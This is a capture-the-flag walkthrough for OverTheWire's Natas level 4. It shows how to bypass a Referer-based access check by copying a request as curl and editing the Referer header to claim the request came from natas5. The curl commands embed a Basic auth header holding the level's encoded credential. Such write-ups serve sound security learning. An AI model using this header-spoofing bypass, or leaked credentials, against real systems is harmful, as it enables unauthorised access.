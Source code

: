 # Natas 4 walkthrough 

To complete this one we will need to understand referal links. Bascially its a link that 
the website can be accesed from, and only from that link. This partilucar website needs
a link which we dont have the access to, the ***natas5 login.*** After refreshing the 
page this information is shown:

>Access disallowed. You are visiting form ...natas4... while authorized users should come only from ...natas5...

Thats where we need to investigate.

---

## How to we change the refferal link?

There are many different options to change the refferal link. I will be using the terminal
way. Firstly, we need to actually find the refferal link.

1. Inspect the page. 
2. Navigate to the network tab.
3. Refresh the page.

By now you should see the `index.php` file. When clicking it, you can see the referal link.
Now, right clicking on this file select the ***copy value -> copy as cURL***. You should
have something like:
` curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1' \
  -H 'Priority: u=0, i' `

When pasted into the terminal, you get the message that you are trying to access from 
natas4, but it is only allowed to access from natas5. So naturally, we change the cURL from:

`
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1' \
  -H 'Priority: u=0, i'
`

to:

`
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1' \
  -H 'Priority: u=0, i'
`

***Notice we changed the "referer" to natas5 AND deleted the /index.php***
After pasting that changed command into the terminal, you should be granted access.
